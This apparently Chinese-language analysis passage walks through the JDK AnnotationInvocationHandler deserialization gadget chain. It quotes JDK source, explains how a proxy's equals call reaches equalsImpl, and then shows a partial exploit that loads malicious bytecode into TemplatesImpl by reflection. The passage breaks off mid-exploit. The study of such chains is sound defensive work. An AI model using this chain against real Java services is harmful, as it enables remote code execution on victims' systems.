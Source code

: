 ```java
private Method[] getMemberMethods() {
    if (this.memberMethods == null) {
        this.memberMethods = (Method[])AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
            public Method[] run() {
                Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();
                AccessibleObject.setAccessible(var1, true);
                return var1;
            }
        });
    }

    return this.memberMethods;
}
```

到这里，可以看到this.memberMethods可控，到现在也就是说如果能让AnnotationInvocationHandler调用equalImpl方法，且控制其中的memberMethods，就可以完成任意方法的调用了。

**2.怎么触发equalsImpl？**

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
    String var4 = var2.getName();
    Class[] var5 = var2.getParameterTypes();
    if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
        return this.equalsImpl(var3[0]);
    } else {
        ......
    }
}
```

`关键逻辑`：如果代理对象调用了equals方法，且满足equals方法有且仅有一个Object类型的参数。



> 当前exp,成功触发
>
> ```java
> //read evil bytecode-2
> FileInputStream is = new FileInputStream("D:\\Projects\\JAVA\\jdkSer\\target\\test-classes\\Aur0ra.class");
> 
> int available = is.available();
> byte[] bytes = new byte[available];
> is.read(bytes,0,available);
> 
> //construct TemplatesImpl
> TemplatesImpl templates = new TemplatesImpl();
> 
> Class<? extends TemplatesImpl> clazz = templates.getClass();
> 
> Field bytecodes = clazz.getDeclaredField("_bytecodes");
> bytecodes.setAccessible(true);
> bytecodes.set(templates,new byte[][]{bytes});
> 
> Field name = clazz.getDeclaredField("_name");
> name.setAccessible(true);
> name.set(templates,"Aur0ra");
> 
> Class<?> annoClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
> Constructor<?> declaredConstructor = annoClass.getDeclaredConstructor(Class.class, Map.class);
> declaredConstructor.setAccessible(true);
> Object anno = declaredConstructor.newInstance(Annotation.class,new HashMap());
> 